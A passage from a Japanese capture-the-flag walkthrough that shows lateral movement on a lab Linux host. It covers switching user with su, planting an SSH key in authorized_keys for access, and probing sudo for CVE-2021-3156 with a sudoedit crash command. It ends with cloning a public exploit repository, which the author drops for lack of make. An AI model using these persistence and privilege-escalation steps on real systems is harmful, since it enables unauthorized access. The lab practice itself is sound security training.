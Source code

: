 ```sh
bash-4.4$ id james
uid=1000(james) gid=1000(james) groups=1000(james)
bash-4.4$ id paradox
uid=1001(paradox) gid=1001(paradox) groups=1001(paradox)
```

paradox には、su コマンドで先ほどのパスワードで昇格できた。

```sh
[paradox@ip-10-10-19-34 ~]$ ls -al
total 56
drwx------. 4 paradox paradox   203 Nov 18  2020 .
drwxr-xr-x. 4 root    root       34 Nov  8  2020 ..
-rw-rw-r--. 1 paradox paradox 13353 Nov  8  2020 backup.zip
lrwxrwxrwx. 1 paradox paradox     9 Nov  8  2020 .bash_history -> /dev/null
-rw-r--r--. 1 paradox paradox    18 Nov  8  2019 .bash_logout
-rw-r--r--. 1 paradox paradox   141 Nov  8  2019 .bash_profile
-rw-r--r--. 1 paradox paradox   312 Nov  8  2019 .bashrc
-rw-rw-r--. 1 paradox paradox 10019 Nov  8  2020 CustomerDetails.xlsx
-rw-rw-r--. 1 paradox paradox 10366 Nov  8  2020 CustomerDetails.xlsx.gpg
drwx------. 4 paradox paradox   132 Nov  8  2020 .gnupg
-rw-------. 1 paradox paradox  3522 Nov  8  2020 priv.key
drwx------  2 paradox paradox    47 Nov 18  2020 .ssh
```

.ssh/authorized_keys に公開鍵を追記して SSH 接続を確立。

特に何もないので james を目指したい。

```sh
[paradox@ip-10-10-19-34 ~]$ find / -user james -type f -not -path "/proc/*" 2>/dev/null
/var/spool/mail/james
```

手がかりとなるファイルが無い。

```sh
[paradox@ip-10-10-19-34 ~]$ sudo --version
Sudo version 1.8.29
Sudoers policy plugin version 1.8.29
Sudoers file grammar version 46
Sudoers I/O plugin version 1.8.29
[paradox@ip-10-10-19-34 ~]$ sudoedit -s '\' $(python3 -c 'print("A"*1000)')
malloc(): invalid size (unsorted)
Aborted
```

CVE-2021-3156 の脆弱性がありそう。

```sh
git clone https://github.com/CptGibbon/CVE-2021-3156.git
zip -r ./cve.zip ./CVE-2021-3156
```

wget も nc も使えないので、FTP でアップロード。  
しかし、make が無いのでいったん断念。
